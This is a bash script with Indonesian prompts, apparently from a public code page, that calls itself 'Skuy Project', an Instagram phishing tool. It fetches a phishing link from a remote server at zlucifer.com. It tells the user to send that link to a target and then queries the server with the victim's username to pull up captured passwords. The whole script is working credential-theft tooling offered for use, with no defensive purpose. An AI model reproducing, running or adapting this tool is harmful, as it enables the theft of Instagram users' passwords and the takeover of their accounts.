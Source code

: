 #!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                          _            _                               ////
#////                         | |          (_)                              ////
#////                         | |_   _  ___ _|                              ////
#////                         | | | | |/ __| |                              ////
#////                         | | |_| | (__| |                              ////
#////                         |_|\__,_|\___|_|                              ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
intro(){
echo "Selamat datang kak, Siapa nick kaka?" #tulisan keluar
read nick #membaca yang ditulis
echo "            _,.-------.,_ "
sleep 0.03
echo "        ,;~'             '~;, "
sleep 0.03
echo "      ,;                     ;, "
sleep 0.03
echo "     ;                         ; "
sleep 0.03
echo "    ,'                         ', "
sleep 0.03
echo "   ,;                           ;, "
sleep 0.03
echo "   ; ;      .           .      ; ; "
sleep 0.03
echo "   | ;   ______       ______   ; | "
sleep 0.03
echo "   |  '/~'     ~' . '~     '~\'  | "
sleep 0.03
echo "   |  ~  ,-~~~^~, | ,~^~~~-,  ~  | "
sleep 0.03
echo "    |   |        }:{        |   | "
sleep 0.03
echo "    |   l       / | \       !   | "
sleep 0.03
echo "    .~  (__,.--' .^. '--.,__)  ~. "
sleep 0.03
echo "    |     ---;' / | \ ';---     | "
sleep 0.03
echo "     \__.       \/^\/       .__/ "
sleep 0.03
echo "      V| \                 / |V "
sleep 0.03
echo "       | |T~\___!___!___/~T| | "
sleep 0.03
echo "       | |'IIII_I_I_I_IIII'| | "
sleep 0.03
echo "       |  \,III I I I III,/  | "
sleep 0.03
echo "        \   '~~~~~~~~~~'    / "
sleep 0.03
echo "          \   .       .   / "
sleep 0.03
echo "            \.    ^    ./ " 
sleep 0.03
echo "              ^~~~^~~~^  "
sleep 0.03
echo "  ================================"
sleep 2
echo "  ==        Skuy Project        =="
sleep 0.7
echo "  ================================"
echo " Skuy Project adalah Tools phising "
echo " Instagram via best9 "
echo
echo "Selamat datang "$nick
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
get_url=$(curl -s http://zlucifer.com/api/hackbae.php?request=skull_api)
get_url2=$(curl -s http://zlucifer.com/api/hackbae.php?request=skull)
cek='curl -s '$get_url2 # check status
zlucifer="user-agent: zlucifer"
clear
echo Mohon tunggu..
load
clear
intro
response=`curl -H "$zlucifer" -m "240" -s -o /dev/null -w "%{http_code}" $cek`
#echo $response
if [[ $response != *200* ]]; then
    echo
    echo
    echo
    echo "Cara penggunaan :"
    echo "1. Copy link ini : $get_url2"
    echo "2. Kirim link yang sudah di copy ke target"
    echo "3. Jika korban sudah terkena bisa langsung di cek"
    echo 
    echo "Mau melakukan cek target?"
    echo "y/n?"
    read confirm
    if [ $confirm = "y" ]; then
            echo "Silahkan masukan username Instagram target"
            echo "contoh hack.id_"
            read target # masukin user instagram
            echo
            echo "Apakah username $target sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                echo Melakukan pencarian password username : $target
                load
                echo
                echo
                echo "Jangan close aplikasi sebelum scan selesai"            
                echo "========================================"
                cek_target=`curl -s $get_url/instagram.php?cari=$target`
                echo -e $cek_target
                echo "======================================="
                echo " Gunakan tools dengan bijak"
                echo " -zLucifer"
                echo "======================================="
            else
                echo "Kesalahan"
            fi            
    else
echo "Terimakasih sudah menggunakan Skull Project"
    fi
fi
